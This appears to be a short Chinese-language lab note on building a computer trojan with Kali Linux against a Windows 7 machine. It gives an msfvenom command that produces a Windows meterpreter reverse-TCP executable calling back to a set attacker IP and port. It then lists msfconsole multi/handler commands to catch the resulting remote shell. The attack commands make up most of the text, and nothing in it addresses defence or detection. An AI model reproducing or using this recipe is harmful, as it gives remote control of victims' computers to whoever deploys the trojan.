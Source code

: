 



# 电脑木马

* 环境：Kali、Win7

* 测试是否连通：ping

  Kali ping停止：Ctrl+Z

  

## 生成木马app

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.133 LPORT=4444 -f exe > muma.exe
LHOST 设置远控回联的客户端IP,也就是Kali主机的IP地址
LPORT 设置回联的客户端端口号,也就是kali主机监听的端口号
```

<img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230801104043034.png" alt="image-20230801104043034" style="zoom:67%;" />

* 被入侵的电脑下载木马

## 木马启动

* msfconsole启动

  ```
  msfconsole
  ```

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230801104159747.png" alt="image-20230801104159747" style="zoom:67%;" />

* 使用后门模块

  ```
  use exploit/multi/handler
  ```

* 攻击载荷

  ```
  set payload windows/meterpreter/reverse_tcp
  ```

* 设置客户端IP（Kali）

  ```
  set LHOST 192.168.3.27
  ```

* 设置客户端监听端口

  ```
  set LPORT 4444
  ```
